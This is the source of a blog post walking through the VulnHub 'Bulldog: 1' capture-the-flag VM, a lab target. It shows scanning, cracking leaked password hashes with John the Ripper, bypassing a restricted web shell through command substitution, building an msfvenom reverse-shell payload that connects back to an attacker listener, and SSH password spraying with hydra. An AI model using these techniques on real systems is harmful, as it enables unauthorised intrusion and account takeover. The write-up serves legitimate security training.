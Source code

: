 ```yaml
---
layout: post
modified: 2018-06-07 17:05:01 +0000
title: "Bulldog: 1 Walkthrough"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldog-walkthrough.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries has its website defaced and gets owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :smile:

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looks like in my browser.

![screenshot-1](/assets/images/posts/bulldog-walkthrough/screenshot-1.png)

There's no clue in the HTML source of the landing page as well as its internal link, on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to look for directories and/or files.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll appear in the `nmap` scan. Now, I've two more directories — `admin` and `dev` to explore.

### Under Development

This page `/dev` contains interesting information. There's a link to `/dev/shell`, I suppose, a web shell. Under the hood of the HTML source, there are SHA1 password-hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-walkthrough/screenshot-2.png)

Let's clean up the hashes and send them to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is a must, to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-walkthrough/screenshot-5.png)

I have a session with the site. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-walkthrough/screenshot-6.png)

Sweet. The web shell appears to restrict itself to certain commands.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-walkthrough/screenshot-10.png)

Although a low-privilege shell appears, let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-walkthrough/screenshot-11.png)

### Privilege Escalation

I find two users — `django` and `bulldogadmin`, during enumeration. They can `sudo` as `root`. It's a pity I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-walkthrough/screenshot-14.png)

Notice `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-walkthrough/screenshot-17.png)

Seems like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's what I did.

![screenshot-18](/assets/images/posts/bulldog-walkthrough/screenshot-18.png)

If you look past the "`H`", you see "`SUPERultimatePASSWORDyouCANTget`". I'll have my work cut short if this is the password belonging to any of the users, since they can `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-walkthrough/screenshot-21.png)

To an attacker, a shell is a shell is a shell. :imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
